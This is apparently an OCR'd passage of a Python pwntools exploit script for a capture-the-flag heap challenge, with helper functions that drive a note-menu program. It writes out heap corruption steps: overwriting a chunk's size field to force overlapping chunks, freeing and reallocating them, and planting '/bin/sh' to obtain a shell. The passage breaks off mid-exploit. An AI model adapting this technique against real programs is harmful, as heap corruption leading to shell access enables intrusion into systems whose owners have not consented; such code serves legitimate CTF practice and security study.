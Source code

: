 ```python
            print_green('[*] ' + fstr)
        else:
            log.info(fstr)
        addr += 8

def new_note(idx:int, size:int, content:bytes=b'\x00'):
    global io, qword_0x6020e0
    assert idx >= 0 and idx <= 0x10
    io.sendlineafter("your choice: ", '1')
    io.sendlineafter("index: ", str(idx))
    io.sendlineafter("size: ", str(size))
    io.sendafter("content: ", content)
    low_bytes = io.recvline()
    log.info('get msg:{}'.format(low_bytes))
    low_bytes = low_bytes[12:-1]
    low_bytes = int16(low_bytes.decode())
    store_low = (low_bytes | idx)
    for i in range(0x11):
        if qword_0x6020e0[i][0] == 0:
            qword_0x6020e0[i] = [store_low, low_bytes]
            break
    return low_bytes, i


def del_note(idx:int):
    global io, qword_0x6020e0
    io.sendlineafter("your choice: ", '2')
    io.sendlineafter("index: ", str(idx))
    msg = io.recvline()
    count = -1
    for x in qword_0x6020e0:
        count += 1
        if (x[0] & 0xf) == idx:
            x[0] = 0
            x[1] = 0
            break
    return msg, count

def edit_note(idx:int, content:bytes):
    global io
    io.sendlineafter("your choice: ", '3')
    io.sendlineafter("index: ", str(idx))
    io.sendafter("content: ", content)
    io.recvuntil("edit success.\n\n")

# get chunk
new_note(0x10, 0x10) # idx 0 chunk A
new_note(0x1, 0x10) # idx 1 chunk B
new_note(0x2, 0x10) # idx 2 chunk C
new_note(0x3, 0x20) # idx 3 chunk D
new_note(0x4, 0x10, b'/bin/sh\x00') # idx 4 chunk E

show_qword_0x6020e0() # show array

# edit and overlap size field
edit_note(0, p64(0) + p64(0x71))

# del_note 1 chunk B and re-malloc it
del_note(1)
new_note(0x1, 0x60) # idx 1 chunk F
 # del_note 2 chunk C and 3 chunk D
del_note(2)
del_note(3)
```